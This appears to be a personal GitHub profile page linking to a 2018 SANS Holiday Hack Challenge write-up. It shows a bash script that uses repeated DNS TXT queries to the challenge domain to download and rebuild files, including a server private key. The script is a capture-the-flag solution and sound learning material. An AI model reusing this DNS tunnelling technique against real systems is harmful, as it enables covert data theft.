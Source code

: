 ## 2018 SANS Holiday Hack Challenge Write-Up

Looking for my 2018 SANS Holiday Hack Challenge write-up? [Et voila!](files/CraHan%20-%20KringleCon%202018%20writeup.pdf)

```bash
#!/bin/bash

files=('server.crt' 'server.key' 'source.html')

for file in "${files[@]}" 
do
    # Convert filename to hex
    fnhex=$(xxd -pu <<< $file)

    # Strip the linefeed
    fnhex=${fnhex::-2}

    # DNS query requesting number of chunks
    chunks=$(host -t txt ${fnhex}.erohetfanu.com erohetfanu.com | \ 
    sed -n 's/.*\"\([0-9]*\)\".*/\1/p')

    # Check if value was returned
    if [ $chunks > 0 ]
    then
        echo "${file} found (${chunks} chunks)."

        if [ "$1" != "recon" ]
        then
            # Grab the file and save it to ${file}.hex
            echo -n "Grabbing chunk: "
            chunks=$(expr $chunks - 1)

            for chunk in $(eval echo "{0..$chunks}")
            do
                remainder=$(( chunk % 100 ))
                [ "$remainder" -eq 0 ] && echo -n "${chunk}..."

                host -t txt ${chunk}.${fnhex}.erohetfanu.com erohetfanu.com | \
                sed -n 's/.*\"\(.*\)\".*/\1/p' >> "${file}.hex"
            done

            printf "done.\n\n"
            
            # remove \n
            cat ${file}.hex | tr -d '\n' > ${file}-clean.hex

            # convert back to binary
            xxd -r -p ${file}-clean.hex ${file}
        fi
    else
        echo "${file} not found."
    fi
done
```

## Random

> Folks that throw dirt on you aren't always trying to hurt you, and folks that pull you out of a jam aren't always trying to help you. But the main point is when you're up to your nose in shit, keep your mouth shut.
> 
> -- <cite>Jack Beauregard</cite>

## Elsewhere

- [Twitter](https://www.twitter.com/crahan)
- [Instagram](https://instagram.com/crahan)
- [Github](https://github.com/crahan)
- [Pinboard](https://pinboard.in/u:crahan)
